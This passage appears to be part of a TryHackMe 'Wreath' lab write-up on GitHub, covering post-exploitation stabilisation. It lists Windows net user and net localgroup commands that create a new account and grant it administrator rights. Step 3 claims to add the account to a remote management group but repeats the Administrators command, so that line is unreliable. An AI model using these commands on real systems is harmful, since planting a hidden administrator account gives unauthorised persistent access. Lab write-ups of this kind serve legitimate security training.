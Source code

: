 **Task 21: Stabilisation & Post Exploitation**

For this task we have to make changes in the prov-serv only the commands are as follows...

Make sure to execute the commands in proper syntax cause the command prompt wont response to errors..
- 1. Create your a user with any name you want
 
         net user USERNAME PASSWORD /add

- 2. Add the user in the Administration directory
 
         net localgroup Administrators USERNAME /add

- 3. Now add the user in the remote managment group
 
         net localgroup Administrators USERNAME /add

- 4. Now verify wether you have done the process correctly
 
         net user <yourusername>

![Screenshot_2023-08-08_04_50_52](https://github.com/Anirudh-Saxena/Wreath-Writeup-THM/assets/73027020/2fa161a4-cb4b-411c-9d0b-7e7e4a1670c0)


